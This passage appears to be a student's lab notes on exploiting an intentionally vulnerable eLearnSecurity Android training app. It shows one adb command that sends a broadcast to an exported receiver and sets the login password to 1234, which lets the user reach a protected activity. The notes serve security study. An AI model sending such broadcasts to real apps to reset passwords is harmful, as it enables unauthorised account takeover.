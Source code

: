 ![MainActivity onCreate](androidassets/image-20240111193714775.png)

Launch the attack via `adb` by interacting with the identified vulnerable broadcast receiver.

```bash
adb shell am broadcast -a com.elearnsecurity.vulnerablereceiver.CHANGEPW -e PASSWORD 1234
```

- Password is set now, and login can be made with pw `1234`
  - The correct login will open `ProfitActivity`

![](androidassets/image-20240111194420514.png)